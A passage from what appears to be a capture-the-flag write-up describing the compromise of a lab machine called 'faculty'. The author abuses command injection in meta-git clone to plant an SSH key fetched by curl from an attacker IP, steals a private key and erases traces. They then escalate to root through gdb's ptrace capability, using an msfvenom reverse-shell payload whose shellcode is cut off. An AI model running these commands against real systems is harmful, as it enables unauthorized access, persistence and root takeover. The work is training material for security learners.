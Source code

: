 ```bash
(node:3122) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/tests/sss||touch HACKED'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:3122) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:3122) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.

gbyolo@faculty:/dev/shm/tests$ ls
HACKED  files  secret  sss  test
gbyolo@faculty:/dev/shm/tests$ 

```

I host a public SSH key on my pythong server. I then run a command to fetch the key and add it to developer's `authorized_keys`.
```bash
sudo -u developer /usr/local/bin/meta-git clone 'sss||echo $(curl -s 10.10.15.34/id_rsa.pub) >> /home/developer/.ssh/authorized_keys'
```
I am then able to ssh into `developer's` account!

Once logged in to `developer`, I see that they already have a created `id_rsa`. To keep quiter, I delete my key from `authorized_keys`, and grab their ssh key. I also remove my `test` drectory from `/dev/shm`.
# Root Shell
I notice when i log in that `developer` is a member of the `debug` group. This could be useful.
```bash
developer@faculty:~/.ssh$ id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
```
I check what this group owns with a `find` command and get back only the `gdb` binary. This is the Gnu Debugger. If I recall correctly, if this binary has the proper capabilities I should be able to get a privilege escalation with this. I check the capabilities on `gdb`
```bash
developer@faculty:~/.ssh$ getcap /usr/bin/gdb
/usr/bin/gdb = cap_sys_ptrace+ep
```
Checking HackTricks, there is a [section for this scenario](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace)
#### CAP_SYS_PTRACE
So this is a little complicated, it involves injecting shellcode into a running process. Fortunately HackTricks has a great guide on this. Basically what's happening is that we're using `msfvenom` to generate some shellcode, then we create a python script to convert it into a usable format. Then we just run `gdb`, and attach it to a process run by root, and inject our shell code. This then gets the shellcode executed as root, which executes a reverse shell.
```bash
# Generate the shellcode
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f py -o revshell.py
vim revshell.py
```
```python
# //revshell.py
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
```